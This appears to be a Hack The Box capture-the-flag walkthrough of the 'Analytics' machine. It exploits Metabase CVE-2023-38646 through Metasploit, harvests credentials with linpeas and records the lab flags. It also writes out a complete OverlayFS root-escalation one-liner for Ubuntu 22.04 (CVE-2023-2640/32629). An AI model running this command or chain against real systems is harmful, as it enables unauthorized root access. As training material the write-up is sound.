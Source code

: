 ```yaml
---
layout: post
title: "Hack The Box - Analytics"
categories: guide
author:
- th4ntis
---
```


This is my walkthrough on [Analytics](https://app.hackthebox.com/machines/Analytics)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(840).png)

First we scan the Machine

```bash
nmap -T4 -Pn -v 10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(841).png)

We see port 22 and 80 open.

Browse to the website and we get an error, add the IP and domain to the hosts file.&#x20;

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(842).png)

Now going back to the website we can look around!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(843).png)

Looking around, we see the Login page at the top. Checking that out, it doesn't work BUT the URL has changed to `data.analytical.htb`, so let's add that to the hosts file as well.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(844).png)

When looking we see it's running Metabase.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(845).png)

Search for Metabase exploits on google as well as in metasploit. I find [this blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) talking about Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)

In Metasploit we see a potential exploit

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(846).png)

Let's check the options and set them

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(847).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(848).png)

Send the exploit....

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(849).png)

We have a shell! Now let's see if we can get and run linpeas.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(850).png)

We can! Run it!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(851).png)

We see in the "Environment" section, a user and a password

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(852).png)

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's ssh into the machine with the newly discovered username and password.

```bash
ssh metalytics@10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(853).png)

Got the user flag! `5f24e4536b318d506fe1a38fbbd959fa`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(854).png)

### Priv Escalation

I seen we were running Ubuntu 22.04.3 as we logged in.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(855).png)

A simple google search for "Ubuntu 22.04.3 priv escalation" shows me [this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu\_local\_privilege\_escalation\_cve20232640/) about Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629) with multiple references. They list how you can get root using the OverlayFS module with this command:

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
```

We have root! `f35c47aac97cb1a6b5450d4eb024a3cc`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(856).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(857).png)
